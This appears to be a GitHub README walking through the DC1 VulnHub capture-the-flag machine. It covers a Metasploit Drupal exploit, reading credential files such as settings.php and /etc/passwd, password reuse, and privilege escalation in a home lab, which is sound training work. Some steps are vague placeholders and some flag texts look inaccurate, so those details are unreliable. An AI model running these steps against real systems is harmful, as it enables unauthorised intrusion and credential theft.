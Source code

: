 # Home Hacking Lab: DC1 VulnHub Machine Exploitation

## Description
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

## Apps, Languages, & Utilities Used
- **Virtualization Software:** VirtualBox
- **Operating Systems:** Kali Linux, DC1 VulnHub machine
- **Security Tools:** Metasploit, nmap, Hydra, LinPEAS, MySQL
- **Scripting:** Bash

## Environments Used
- **Kali Linux:** Attacker Machine
- **DC1 VulnHub Machine:** Vulnerable VM

## Objective
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

## Skills Learned
- Setting up VMs in Oracle VM VirtualBox.
- Performing vulnerability scanning using nmap.
- Exploiting web application vulnerabilities using Metasploit.
- Brute-forcing login credentials using Hydra.
- Capturing and analyzing database credentials.
- Performing privilege escalation and capturing flags on a vulnerable machine.
- Documenting and reporting exploitation techniques.

## Steps Taken

### Download and Setup DC1 VulnHub Machine

#### Download DC1 Machine from VulnHub
- Navigate to VulnHub and search for DC1 or go directly to the [DC1 VulnHub page](https://www.vulnhub.com/entry/dc-1,292/).
- Download the DC1 machine and extract the contents.

#### Import the DC1 Machine into VirtualBox
- Open VirtualBox and go to `File > Import Appliance`.
- Select the extracted DC1 file and follow the prompts to complete the import.

#### Configure Network Settings
- Adjust the network adapter to NAT Network and select the appropriate network.

#### Start the DC1 VM
- Boot up the DC1 VM and ensure it is running properly.

### Exploitation of DC1 VulnHub Machine

#### Flag 1: Initial Enumeration and Exploitation
**Objective:** Identify and capture the first flag by exploiting the web application.

##### Verify DC1 Machine is Running
- Ensure the DC1 machine is up and running by pinging its IP address:
  ```bash
  ping 10.0.200.6
Information Gathering
Perform an nmap scan to identify open ports and services:
bash
Copy code
nmap -A -sC -oN dc.txt 10.0.200.6
Enumerate the Web Application
Access the web application running on port 80 and identify that it is using Drupal.
Use Metasploit to find and exploit vulnerabilities in Drupal:
bash
Copy code
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run
Capture Initial Flag
Once you gain a shell, navigate the file system to find the first flag:
bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt
Flag 1 Content: "Every good CMS needs a config file."
Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

Identify Configuration Files
Use the hint from Flag 1 to locate the Drupal configuration file:
bash
Copy code
cat /var/www/html/sites/default/settings.php
Find Database Credentials
Extract database credentials from the configuration file.
Connect to the Database
Use the credentials to connect to the MySQL database:
bash
Copy code
mysql -u dbuser -p
Enumerate Database and Capture Flag
Enumerate the database to find the second flag:
bash
Copy code
show databases;
use drupal;
show tables;
select * from flags;
Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."
Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

Identify Weak Configurations
Search for files with weak permissions or misconfigurations that could allow privilege escalation:
bash
Copy code
find / -perm -4000 -type f 2>/dev/null
Exploit Weakness
Use tools like GTFOBins to escalate privileges:
bash
Copy code
/path/to/vulnerable_binary
Capture Third Flag
Once privileges are escalated, navigate the file system to find the third flag:
bash
Copy code
find / -name flag3.txt
cat /path/to/flag3.txt
Flag 3 Content: "There's more than one way to skin a cat."
Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

Enumerate Users
List all users on the system and look for interesting files in their home directories:
bash
Copy code
cat /etc/passwd
ls /home
Check for Reused Passwords
Try using previously discovered passwords to switch to different users:
bash
Copy code
su - username
Capture Fourth Flag
Navigate the user's home directory to find the fourth flag:
bash
Copy code
find /home -name flag4.txt
cat /path/to/flag4.txt
Flag 4 Content: "You can use the same method to find or access the root flag."
Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

Identify Privilege Escalation Vector
Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.
Exploit and Gain Root Access
Perform the privilege escalation to gain root access:
bash
Copy code
/path/to/exploit
Capture Final Flag
Navigate to the root directory and find the final flag:
bash
Copy code
cd /root
cat final_flag.txt
Final Flag Content: "Well done! You have completed the DC1 challenge."
